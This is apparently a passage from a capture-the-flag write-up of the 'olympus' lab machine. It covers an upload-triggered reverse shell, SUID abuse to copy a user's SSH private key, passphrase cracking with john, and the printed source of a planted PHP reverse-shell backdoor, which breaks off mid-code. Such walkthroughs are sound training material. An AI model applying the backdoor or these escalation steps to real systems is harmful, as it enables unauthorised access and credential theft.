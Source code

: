 {{text("I then tried uploading it through the chat.")}}

{{image("../../static/writeups/olympus/images/000006.jpg")}}

{{text("After it successfully uploaded, I once again dumped the contents of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>chats</code> table and used the file name that was generated for my file.")}}

{{text("If after uploading a file you can't see it while dumping the table, be sure to delete the previous logs so that it updates.")}}

{{text("After setting up a listener and going to the correct URL, I got a connection.")}}

{{image("../../static/writeups/olympus/images/000007.jpg")}}

{{header("Shell as zeus", "shell-as-zeus")}}

{{text("While enumerating my user, I found an interesting file with SUID bit set.")}}

{{console("find / -perm -4000 2>/dev/null", "/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/cputils
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
...")}}

{{text("I simply used it to copy user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>zeus</code> private key.")}}

{{image("../../static/writeups/olympus/images/000008.jpg")}}

{{text("After copying the key to my computer and trying to log in as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>zeus</code> I got prompted for a passphrase to the key.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh2john</code> and then <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> to brute-force the password.")}}

{{text("After a while, I got the passphrase and used it to log in.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("For a long time I couldn't find anything interesting, even while using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>linpeas</code>.")}}

{{text("Then I found a file inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc</code> directory.")}}

{{console("cat VIGQFQFMYOST.php", "<?php
$pass = 'a7c5ffcf139742f52a5267c4a0674129';
if(!isset($_POST['password']) || $_POST['password'] != $pass) die('<form name='auth' method='POST'>Password: <input type='password' name='password' /></form>');

set_time_limit(0);

$host = htmlspecialchars('$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]', ENT_QUOTES, 'UTF-8');
if(!isset($_GET['ip']) || !isset($_GET['port'])) die('<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]');
$ip = $_GET['ip']; $port = $_GET['port'];
